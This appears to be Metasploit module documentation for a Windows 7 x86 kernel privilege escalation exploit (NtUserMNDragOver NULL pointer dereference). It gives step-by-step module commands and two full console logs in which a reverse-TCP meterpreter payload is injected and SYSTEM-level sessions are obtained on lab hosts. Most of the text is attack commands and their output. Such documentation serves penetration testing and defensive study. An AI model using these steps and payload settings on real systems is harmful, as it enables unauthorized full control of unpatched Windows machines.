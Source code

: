 ## Vulnerable Application

This module exploits a NULL pointer dereference vulnerability in
MNGetpItemFromIndex(), which is reachable via a NtUserMNDragOver() system
call.

The NULL pointer dereference occurs because the xxxMNFindWindowFromPoint()
function does not effectively check the validity of the tagPOPUPMENU
objects it processes before passing them on to MNGetpItemFromIndex(),
where the NULL pointer dereference will occur.

This module has been tested against Windows 7 x86 SP0 and SP1.
Offsets within the solution may need to be adjusted to work with
other versions of Windows, such as Windows Server 2008.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 x86
1. `use exploit/windows/local/ntusermndragover`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP0 x86

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.15:49158 (192.168.56.15)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[+] Reflectively injecting the exploit DLL and running the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 192.168.56.15
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.15:49159) at 2020-04-29 17:14:46 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Windows 7 SP1 x86

```

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  User-PC\User @ USER-PC  192.168.56.1:4444 -> 192.168.56.5:49157 (192.168.56.5)

msf5 exploit(multi/handler) > use exploit/windows/local/ntusermndragover
msf5 exploit(windows/local/ntusermndragover) > set session 1
session => 1
msf5 exploit(windows/local/ntusermndragover) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ntusermndragover) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(windows/local/ntusermndragover) > set LPORT 5555
LPORT => 5555
msf5 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 192.168.56.1:5555
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 2696 launched.
[*] Injecting exploit into 2696 ...
[*] Exploit injected. Injecting payload into 2696...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 192.168.56.5
[*] Meterpreter session 2 opened (192.168.56.1:5555 -> 192.168.56.5:49158) at 2020-04-29 17:18:00 +0800

meterpreter > sysinfo
Computer        : USER-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
